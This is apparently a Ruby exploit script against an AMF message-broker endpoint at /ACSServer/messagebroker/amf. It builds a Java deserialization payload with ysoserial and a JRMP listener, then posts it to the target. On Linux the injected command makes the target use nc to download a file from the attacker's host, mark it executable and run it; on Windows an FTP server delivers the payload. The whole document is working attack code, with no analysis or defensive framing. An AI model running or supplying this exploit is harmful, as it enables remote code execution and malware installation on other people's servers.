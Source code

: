 ```rb
LINUX_CMD = %{\'nc -w 2 SERVER PORT > /tmp/PAYLOAD; chmod +x /tmp/PAYLOAD; /tmp/PAYLOAD\'}
rhost = ARGV[0]
rport = ARGV[1]
lhost = ARGV[2].dup.force_encoding('ASCII')
os = ARGV[3]
payload_path = ARGV[4]
payload_name = File.basename(ARGV[4])
if ARGV.length > 5 && ARGV[5] == 'ssl'
	ssl = true
else
	ssl = false
end
Dir.mktmpdir { |temp_dir|
	server_port = rand(10000..65535)
	FileUtils.cp(payload_path, temp_dir)
	puts "[+] Picked port #{server_port} for the #{(os == 'Windows' ? 'FTP' : 'TCP')} server".cyan.bold
	# step 1: start the TCP or FTP server
	if os == 'Windows'
		ftp_start(temp_dir, lhost, server_port)
	else
		t = Thread.new{tcp_start(payload_path, server_port)}
	end
	# step 2: create the AMF payload
	puts "[+] Creating AMF payload...".green.bold
	jrmp_port = rand(10000..65535)
	amf_file = temp_dir + "/payload.ser"
	system("java -jar acsFlex.jar #{lhost} #{jrmp_port} #{amf_file}")
	amf_payload = File.binread(amf_file)
	# step 3: start the ysoserial JRMP listener
	puts "[+] Picked port #{jrmp_port} for the JRMP server".cyan.bold
	# build the command line argument that will be executed by the server
	cmd = (os == 'Windows' ? "java " : "java -Dysoserial.prefix=\'/bin/sh -c\' ")
	cmd += "-cp #{YSOSERIAL.gsub('JRMP_PORT', jrmp_port.to_s)}"
	cmd_final = (os == 'Windows' ? WINDOWS_CMD : LINUX_CMD).gsub("SERVER", lhost).gsub("PORT", server_port.to_s).gsub("PAYLOAD", payload_name)
	puts "[+] Sending command #{cmd_final}".green.bold
	jrmp_pid = spawn((cmd + cmd_final))
	sleep 5
	Process.detach(jrmp_pid)
	# step 4: fire the payload!
	uri = URI.parse("http#{ssl ? 's': ''}://#{rhost}:#{rport}")
	Net::HTTP.start(uri.host, uri.port, (ssl ? {:use_ssl => true, :verify_mode => OpenSSL::SSL::VERIFY_NONE } : {})) do |http|
		http.post('/ACSServer/messagebroker/amf', amf_payload)
	end
	puts "[+] AMF payload sent, waiting 15 seconds for payload download...".green.bold
	sleep 15
	Process.kill("HUP", jrmp_pid)
	if t
		t.terminate
	end
	puts "[*] Payload should have executed by now, exiting!".bold
}
exit 0
```
